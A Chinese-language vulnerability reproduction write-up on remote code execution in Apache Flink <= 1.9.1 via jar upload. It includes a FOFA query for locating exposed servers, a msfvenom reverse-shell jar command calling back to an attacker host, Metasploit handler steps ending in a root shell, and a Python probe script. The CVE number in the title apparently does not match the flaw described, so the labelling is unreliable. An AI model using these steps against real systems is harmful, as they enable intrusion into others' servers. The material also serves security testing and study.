 # Apache Flink 小于1.9.1远程代码执行 CVE-2020-17518

## 漏洞描述

近日,有安全研究员公开了一个Apache Flink的任意Jar包上传导致远程代码执行的漏洞.

## 漏洞影响

- Apache Flink  <= 1.9.1(最新版本)

## FOFA

- app="Apache-Flink" && country="CN"

## 漏洞复现

打开一个使用 Apache Flink 的网站，打开后页面为这样子

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202090031054.png)

点击查看文件上传页面

![bb05ef9f-f86f-4bb5-bbcb-c13424d7aca4](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202090032614.png)

打开MSF 生成一个 jar 木马

```shell
msfvenom -p java/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx  LPORT=4444 -f jar > test.jar
```

点击 Add 上传 jar 文件

![3](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202090032442.png)

监听端口

```shell
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/shell/reverse_tcp
payload => java/shell/reverse_tcp
msf6 exploit(multi/handler) > set lhost xxx.xxx.xxx.xxx
lhost => xxx.xxx.xxx.xxx
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run
```

![4](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202090032416.png)

点击下 submit

![5](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202090032257.png)

反弹回来一个root 权限shell

![6](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202090032335.png)

## 漏洞POC

```python
import requests

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Flink <= 1.9.1          \033[0m')
    print('+  \033[36m使用格式: python3 Apache_Flink.py         \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:9999  \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/jars/upload"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, timeout=20)
        if "Unable to load requested file /jars/upload." in response.text:
            print("\033[32m[o] 可能存在 Apache Flink <= 1.9.1 远程代码执行漏洞\n\033[0m")
        else:
            print("\033[31m[x] 目标Url 文件上传模块无法使用\033[0m")
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![7](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202090033380.png)
